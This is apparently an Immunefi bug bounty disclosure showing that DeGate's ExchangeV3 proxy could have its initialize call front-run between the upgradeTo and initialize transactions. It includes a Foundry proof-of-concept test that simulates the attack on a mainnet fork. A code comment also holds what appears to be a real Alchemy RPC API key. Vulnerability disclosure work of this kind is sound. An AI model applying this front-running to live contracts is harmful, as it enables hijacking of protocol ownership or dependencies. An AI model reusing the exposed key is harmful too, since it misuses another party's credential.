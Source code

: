 
# The implementation upgrade must be done by calling the upgradeToAndCall function to avoid frontrunning of the initialization.

Submitted on Thu Nov 23 2023 22:30:05 GMT-0400 (Atlantic Standard Time) by @Paludo0x for [Boost | DeGate](https://immunefi.com/bounty/boosteddegatebugbounty/)

Report ID: #26073

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

Impacts:
- Contract fails to deliver promised returns, but doesn't lose value
- Impact caused by the unintended functionality of multisig owners

## Description
## Bug Description

The implementation upgrade in the ExchangeV3 proxy was performed by sequentially calling:
1. `upgradeTo` function of the proxy https://dashboard.tenderly.co/tx/mainnet/0x618d6d6bdaa4be3257aa4c695f9c10806e261f0e9759fc3133a5798fed43c062?trace=0
2. `initialize` function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x3c5629d35e75eb6b1e3e17e73ea16f3638c46a120a1f31bb8988f9db89bf483a?trace=0
3. `transferOwnership` function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x9e6c119e7acaa30e62ef7bc12096dc6bd74ea38b1341aa2ecaeb9092c1e37a01?trace=0
4. `claimOwnership` function of the implementation https://dashboard.tenderly.co/tx/mainnet/0x238ba9b1141f396446013989c947851eba3629e81121347f6d66f167f8823469?trace=0.2.1

The issue is that `upgradeTo` and `initialize` calls have been done at different blocks (respectively 18552107 and 18552108).
That imply that **anyone** could have front run the initialize call because it is done throug fallback function of proxy contract which is permissionless.

Function initialize is the following:

```
    function initialize(
        address _loopring,
        address _owner,
        bytes32 _genesisMerkleRoot,
        bytes32 _genesisMerkleAssetRoot
        )
        external
        override
        nonReentrant
        onlyWhenUninitialized
    {
        require(address(0) != _owner, "ZERO_ADDRESS");
        owner = _owner;

        state.initializeGenesisBlock(
            _loopring,
            _genesisMerkleRoot,
            _genesisMerkleAssetRoot,
            EIP712.hash(EIP712.Domain("DeGate Protocol", version(), address(this)))
        );
    }
```

So, the initialize function initializes:
1. the owner of the implementation (not of the proxy, which is stored in a different slot)
2. the loopring address 
3. genesisMerkleRoot 
4. genesisMerkleAssetRoot

We must consider that the upgrade function is called when the implementation is initialized for the first time or when the implementation is updated to a new version.
In the last case it should be called by the multisig and the timelock after at least 45 days. 
Therefore, resolving the issue could take a long time and a revert of the transaction could be unnoticed.

## Impact
What could be the effects of initialization by any user?

If a malicious user set up a different owner, fortunately, this can be changed by the proxy owner but at later time if the proxy owner is the Timelock. 

At the moment, I canno comment the effects of initializing with counterfeit genesisMerkleRoot and genesisMerkleAssetRoot. 

Eventually, in my opinion, the biggest problem is Loopring address.
A malicious user could deploy a fake Loopring contract similar to the real one but with a backdoor usable by the malicious user himself. 
While the other initialization parameters (owner and merkle roots) would be the equivalent to the ones of the legitimate transsaction.
This situation could be unnoticed by legitimate owners.



        
## Proof of concept
The POC verifies that any user can call initialize the function after upgrading of implementation and if the same function is called by the owner afterwards it reverts because already initialized.
It shall be run with foundry with the following command
forge test --match-test test_initialize_frontRun --fork-url YOUR_RPC_URL --fork-block-number 18552107

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity >=0.6.2 <0.9.0;
pragma abicoder v2;

import {Test, console2} from "forge-std/Test.sol";
import {OwnedUpgradabilityProxy} from "../contracts/thirdparty/proxies/OwnedUpgradabilityProxy.sol";  
import {LoopringIOExchangeOwner} from "../contracts/aux/access/LoopringIOExchangeOwner.sol";  
import {ExchangeV3} from "../contracts/core/impl/ExchangeV3.sol";  
import {ILoopringV3} from "../contracts/core/impl/ExchangeV3.sol";  

interface IMultiSigWallet {
        function removeOwner(address owner) external;
        function addOwner(address owner) external;
}
contract TestPlaygorund is Test {

    address constant contractsDeployer = 0xacD3A62F3eED1BfE4fF0eC8240d645c1F5477F82;
    OwnedUpgradabilityProxy constant excV3ProxyInterfDeployed = OwnedUpgradabilityProxy(0x9C07A72177c5A05410cA338823e790876E79D73B);
    ExchangeV3 constant excV3ProxyImplDeployed = ExchangeV3(0x9C07A72177c5A05410cA338823e790876E79D73B);
    address constant anyUser = address(0xbee);


    //forge test --match-test test_initialize_frontRun --fork-url https://eth-mainnet.g.alchemy.com/v2/gSyV-SZAsIZGOyq7gTEOclsvkFL3dJ94 --fork-block-number 18552107
    function test_initialize_frontRun() public {
    
        //on block 18552107 deployer account (which is actual Proxy Owner) updates implementation address to 
        //https://dashboard.tenderly.co/tx/mainnet/0x618d6d6bdaa4be3257aa4c695f9c10806e261f0e9759fc3133a5798fed43c062

        //we fork from block 18552108, i.e. when function "initialize" is triggered
        address loopring =0x9385aCd9d78dFE854c543294770d0C94c2B07EDC;
        address owner = contractsDeployer;
        bytes32 genesisMerkleRoot = 0x03e1788bf14436c39a3841ae888ffb3e6ec8405bc2773afa28b6d4dfc309cf19;
        bytes32 genesisMerkleAssetRoot = 0x071c8b14d71d432750479f5fe6e08abe1ec04712835a83cdf84d0483b9382ae8;

   
        //I would have loved to check the different loopring value but I'm getting stack too deep error
        //(,,ILoopringV3 tempLoopring,,,,,,,,,,) = excV3ProxyImplDeployed.state();
        
        //we verify that owner is unitialized
        console2.log("Owner address before initialize", excV3ProxyImplDeployed.owner() );

        //any user frontruns and call initialize, he could have changed parameters as he like
        vm.startPrank(anyUser);
        excV3ProxyImplDeployed.initialize(loopring, owner, genesisMerkleRoot, genesisMerkleAssetRoot);
        vm.stopPrank();
        console2.log("Owner address after initialize", excV3ProxyImplDeployed.owner() );

        //try to call initialize function by owner
        vm.startPrank(owner);
        vm.expectRevert("INITIALIZED");
        excV3ProxyImplDeployed.initialize(loopring, owner, genesisMerkleRoot, genesisMerkleAssetRoot);
        vm.stopPrank();
    }
}

```
